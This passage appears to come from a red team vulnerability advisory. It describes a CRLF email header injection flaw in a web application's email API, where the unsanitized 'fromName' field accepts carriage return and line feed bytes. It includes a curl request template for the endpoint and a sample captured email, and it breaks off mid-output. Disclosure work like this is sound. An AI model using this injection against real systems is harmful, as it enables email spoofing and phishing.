 #### `data` Parameters

The `data` parameter listed above expects a JSON encoded object with the
following keys. In particular, the `fromName` key is not sanitized
properly at the backend server and allows for the injection of the
Carriage Return `0x0D` and Line Feed `0x0A` bytes, allowing an attacker
to successfully inject data into the headers of the email crafted by the
backend server:

`toName` The name of the recipient
`fromName` The name of the sender
`toEmail` The recipients Email Address
`fromEmail` The sender's Email Address
`message` The message body of the Email
`articleId` The ID of the Article in which to send to the recipient

### Weaponization

Upon discovery of the Email API Endpoint, various tests were conducted
by the Maveris Red Team in an attempt to enumerate information on the
functionality of the service.

All of the tests conducted used the following `curl` command template
with varying POST parameters:

    curl https://<VULNERABLEDOMAIN>/system/ws/v11/ss/email \
    -H "Content-Type: application/json" \
    -H "Accept: application/json" \
    -d 'portalId=<REDACTED>&data={"toName": "", "fromName": "", "toEmail": "", "fromEmail": "", "articleId": "", "message": ""}&usertype=customer'

Initial injection attempts sent to a Maveris controlled SMTP server
showed promise of exploitation:

    X-SBRS: None
    X-MID: <REDACTED>
    Date: <REDACTED>
    From: "<test@ORGANIZATION_DOMAIN>"
    To: example@<MAVERIS_SMTP>
    Message-ID: <REDACTED>
    Subject: <REDACTED>
    MIME-Version: 1.0
    Content-Type: multipart/alternative;
    boundary="----=_Part_525_1995287416.1558356802077"

    ------=_Part_525_1995287416.1558356802077
    Content-Type: text/plain; charset=UTF-8
    Content-Transfer-Encoding: 7bit
    <h1>TEST</h1><!--
    <REDACTED WEB APPLICATION DEFAULT MESSAGE>

    ------=_Part_525_1995287416.1558356802077
    Content-Type: text/html;charset="UTF-8"
    Content-Transfer-Encoding: 7bit
